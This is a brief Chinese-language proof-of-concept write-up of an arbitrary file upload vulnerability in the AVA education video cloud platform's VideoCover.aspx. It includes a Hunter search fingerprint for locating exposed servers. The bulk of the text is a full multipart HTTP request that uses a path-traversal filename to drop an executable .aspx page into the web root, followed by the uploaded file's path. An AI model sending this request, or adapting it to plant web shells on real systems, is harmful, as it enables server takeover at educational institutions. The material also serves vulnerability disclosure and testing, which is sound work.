


# 一、漏洞简介
奥威亚教育视频云平台是<font style="color:rgb(62, 62, 62);">一种教育技术解决方案，致力于提供高质量的在线教育视频服务。该平台为教育机构和教师提供了一个全面的视频管理和交流平台。奥威亚教育视频云平台VideoCover存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(62, 62, 62);">二、影响版本</font>
+ 奥威亚教育视频云平台

# 三、资产测绘
+ hunter`web.body="/CSS/NewtonTheme/assets/app.css"`
+ 特征


# 四、漏洞复现
```java
POST /Tools/Video/VideoCover.aspx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 301
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="/../../../AVA.ResourcesPlatform.WebUI/stc.aspx"
Content-Type: image/png

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
--00content0boundary00--
```



上传文件位置

```java
/stc.aspx
```



